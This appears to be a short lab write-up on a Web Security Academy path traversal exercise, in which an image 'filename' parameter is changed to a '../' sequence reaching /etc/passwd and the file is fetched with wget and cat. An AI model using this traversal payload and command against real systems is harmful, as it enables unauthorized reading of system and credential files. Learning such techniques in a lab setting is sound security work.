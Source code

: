 To exploit Path Traversal we need to find entry point, some kind of parameter or URL where we can add path to file. 
After research in app I've found, that there there are paths to images hosted on blog.

Example of path to the image looks like that:

![image](https://github.com/user-attachments/assets/27e8b853-8851-45c5-b74e-646e640deb91)

![image](https://github.com/user-attachments/assets/c0428013-3cf7-4c1f-b214-a7948811770a)


complete URL of the image: https://0a0a0005037186898028e95800ab00e2.web-security-academy.net/image?filename=48.jpg

I decied to change this to view-source:https://0a0a0005037186898028e95800ab00e2.web-security-academy.net/image?filename=../../../../../../../etc/passwd

The image is broken and because of that it is not rendering correctly on the site. But that is not a problem.

I can download image using wget and then cat informations.

`wget "https://0a0a0005037186898028e95800ab00e2.web-security-academy.net/image?filename=../../../../../../../etc/passwd" -O out.txt `
`cat out.txt`

Final result:
![image](https://github.com/user-attachments/assets/5077e82c-b551-4eac-b6da-cacc277a9e3e)

